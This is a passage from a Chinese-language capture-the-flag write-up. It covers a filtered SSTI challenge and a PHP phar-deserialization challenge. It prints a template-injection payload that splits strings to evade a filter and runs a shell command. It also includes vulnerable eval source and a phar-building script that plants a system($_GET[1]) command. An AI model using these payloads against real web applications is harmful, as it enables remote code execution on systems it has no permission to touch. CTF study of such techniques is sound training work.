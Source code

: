 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121324796.png)

然后执行命令查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121325010.png)

### BabySSTI_Two

懒得写了... 过滤跟上一周的那题差不多

通过方括号去访问对应属性

```
http://44ad0597-f152-4e7f-820f-5417399b6406.node4.buuoj.cn:81/
?name={{lipsum['__glob''als__']['__buil''tins__']['__impo''rt__']('os')['po''pen']('c''at${IFS}/fl''ag_in_h3r3_52daad').read()}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121330870.png)

### UnserializeThree

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210121331105.png)

右键源代码可以看到 class.php

```php
<?php
highlight_file(__FILE__);
class Evil{
    public $cmd;
    public function __destruct()
    {
        if(!preg_match("/>|<|\?|php|".urldecode("%0a")."/i",$this->cmd)){
            //Same point ,can you bypass me again?
            eval("#".$this->cmd);
        }else{
            echo "No!";
        }
    }
}

file_exists($_GET['file']);
```

过滤了尖括号和换行符, 不好直接闭合

但是本地试了下 `\r` 也可以达到与 `\n` 类似的效果, 从而跳出 `#` 的污染

之后就是简单 phar 反序列化

```php
<?php

class Evil{
    public $cmd;
}

$a = new Evil();
$a->cmd = "\rsystem(\$_GET[1]);";

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```